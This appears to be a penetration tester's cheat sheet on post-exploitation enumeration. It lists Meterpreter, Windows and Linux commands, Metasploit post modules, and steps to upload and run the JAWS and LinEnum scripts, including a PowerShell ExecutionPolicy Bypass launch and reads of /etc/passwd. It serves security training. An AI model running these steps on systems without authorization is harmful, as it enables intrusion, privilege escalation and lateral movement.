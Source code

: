 # Post Exploitation Enumeration

--------------------------------------------------------------------

## Windows

```
sysinfo
shell
hostname
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn`
```

> [!NOTE]
> This information is very useful as it provides us with an idea of what specific version of Windows is running on the target and the updates that have been installed on the target system.

> [!NOTE]
> Why is this important? from the perspective of a penetration tester, we are able to use this information to identify whether the specific version of Windows running on the target is vulnerable to any exploits that can allow us to elevate our privileges or perform lateral movement.


> Some Metasploit Meterpreter Commands / Shell
```
> users and groups:

getuid
getprivs
background
use post/windows/gather/enum_logged_on_users
whoami /priv
net users
net user administrator
net localgroup
net localgroup administrators

> network:

ipconfig
ipconfig /all
route print
netstat -ano

> Services:

ps
pgrep explorer.exe
net start
wmic service list brief
tasklist /SVC
schtasks /query /fo LIST
schtasks /query /fo LIST /v
```

> [!NOTE]
> As shown , the netstat -ano command displays a list of open ports on the target system and their respective state and process ID (PID).

--------------------------------------------------------------------

## Windows JAWS Enum

```
https://github.com/411Hall/JAWS

cd C:\\
mkdir Temp
cd Temp
upload /root/Desktop/jaws-enum.ps1
shell
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename Jaws-Enum.txt
download JAWS-Enum.txt
```

--------------------------------------------------------------------

## Linux

```
getuid
ifconfig
netstat
route
arp
ps
pgrep vsftpd
/bin/bash -i
cd /root
hostname
cat /etc/*issue
cat /etc/*release
uname -a
dpkg -l
env
lscpu
free -h
df -h
lsblk | grep sd

> Users:

whoami
ls -lah /home
cat /etc/passwd
cat /etc/passwd | grep -v /nologin
groups <USER>
groups root
groups
who
w
last
lastlog

> Services:

ps
ps aux
ps aux | grep msfconsole
ps aux | grep root
top
cat /etc/cron*
crontab -l

> Network:

ifconfig
ip -br -c a
ip a
cat /etc/networks
cat /etc/hostname
cat /etc/hosts
cat /etc/resolv.conf
arp -a
```

--------------------------------------------------------------------

## Metasploit Modules

```
use post/windows/gather/enum_logged_on_users
use post/windows/gather/win_privs
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
use post/windows/gather/enum_applications
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
use post/windows/gather/enum_shares
use post/linux/gather/enum_configs
use post/linux/gather/enum_network
use post/linux/gather/enum_system
use post/linux/gather/checkvm
```

--------------------------------------------------------------------

## Auto Enumerate with LinEnum.sh

```
copy code from github linenum

cd /tmp
upload [LinEnum.sh](http://linenum.sh/)
shell
/bin/bash -i
chmod +x [LinEnum.sh](http://linenum.sh/)
./LinEnum.sh
./LinEnum.sh -s -k <keyword> -r <report> -e /tmp/ -t
```

--------------------------------------------------------------------